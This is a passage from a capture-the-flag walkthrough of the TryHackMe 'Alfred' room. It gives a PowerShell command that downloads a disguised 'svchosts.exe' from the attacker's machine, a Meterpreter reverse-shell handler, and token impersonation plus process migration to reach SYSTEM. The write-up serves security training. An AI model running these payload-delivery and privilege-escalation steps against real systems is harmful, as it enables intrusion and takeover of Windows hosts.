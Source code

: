 After creating the payload, we will see the final size for our fake service host in the output.

Now that we have our payload, we need to transfer it onto the target and catch it with metasploit multi handler.

Let's transfer it using our powershell session we got earlier with netcat off the server. Navigate to C:\Perflogs and then transfer the file off the server onto the target.

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://Tun0-IP:8000/svchosts.exe','svchosts.exe')"
```

Now use ls to make sure it was transfered successfully. Perfect, we see svchosts.exe in PerfLogs.

Let's jump over and start up a metasploit session using exploit/multi/handler before we launch the binary.

Check to make sure the payload is correctly set to windows/meterpreter/reverse_tcp. It should be the default when opening msfconsole.

Show options and set the LPORT to 5555, along with the LHOST to the Tun0-IP. Run the exploit and execute the binary on the device with the netcat powershell session.

```ps
Start-Process "svchosts.exe" 
```

## Task 3: Privilege Escalation

Now, check your listener in metasploit and you should see the command shell session opened. Let's go ahead and view privileges with whoami /priv.

Luckily for us, we can see [SeDebugPrivilege, SeImpersonatePrivilege](https://www.exploit-db.com/papers/42556) are both enabled. Exit the cmd session, and use the metasploit incognito module with meterpreter. Then, list the tokens.

**1) To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available. Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators token. What is the output when you run the getuid command?**

```
load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrators"
getuid
```

Rooted! We were able to escalate to NT AUTHORITY\SYSTEM by impersonating an Administrator [token](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens). However, we might not have the permissions of system yet due to the primary token.

["this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do"](https://tryhackme.com/room/alfred) 

Due to this, we must migrate to a process that has SYSTEM permissions.

We can do this by using ps to find a PID and migrate to it if it is running as SYSTEM. After reviewing the processes, we are going to use services.exe for its primary token.

